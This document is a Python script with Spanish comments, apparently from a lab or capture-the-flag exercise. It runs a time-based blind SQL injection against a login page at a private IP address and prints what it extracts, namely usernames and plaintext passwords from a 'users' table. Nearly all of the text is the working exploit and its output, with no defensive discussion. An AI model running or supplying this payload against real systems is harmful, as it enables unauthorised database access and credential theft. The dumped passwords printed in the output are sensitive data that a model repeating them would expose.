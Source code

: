 ```bash
import requests
import time

TARGET = "http://192.168.1.45/login.php"
DELAY = 0.5
MAX_LEN = 30      # Máximo largo esperado para cada dato
MAX_ROWS = 10     # Número máximo de filas a extraer
DB_NAME = "Nebuchadnezzar"
TABLE_NAME = "users"
COLUMNS = ["id", "username", "password"]

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

def extract_value(row_index, column_name):
    value = ""
    for i in range(1, MAX_LEN + 1):
        found_char = False
        for ascii_code in range(32, 127):  # caracteres imprimibles
            payload = (
                f"' OR IF(ASCII(SUBSTRING((SELECT {column_name} FROM {DB_NAME}.{TABLE_NAME} "
                f"LIMIT {row_index},1), {i}, 1)) = {ascii_code}, SLEEP({DELAY}), 0)-- -"
            )
            data = {'user': payload, 'pass': 'x'}

            start = time.time()
            requests.post(TARGET, data=data, headers=headers)
            elapsed = time.time() - start

            if elapsed > DELAY:
                value += chr(ascii_code)
                print(f"\r[+] Fila #{row_index}, columna '{column_name}': {value}", end='', flush=True)
                found_char = True
                break

        if not found_char:
            break
    return value

print(f"[*] Extrayendo datos de la tabla '{TABLE_NAME}' en la base '{DB_NAME}'...\n")

for row in range(MAX_ROWS):
    row_data = []
    empty_row = True
    for col in COLUMNS:
        val = extract_value(row, col)
        if val:
            empty_row = False
        row_data.append(val)
    if empty_row:
        print("\n[+] Fin de datos.")
        break
    print()  # salto línea después de cada fila
    print(f"Fila #{row}:", row_data)
```
```
[*] Extrayendo datos de la tabla 'users' en la base 'Nebuchadnezzar'...

[+] Fila #0, columna 'password': F4ckTh3F4k3H4ck3r5
Fila #0: ['1', 'shelly', 'F4ckTh3F4k3H4ck3r5']
[+] Fila #1, columna 'password': cambiame2025
```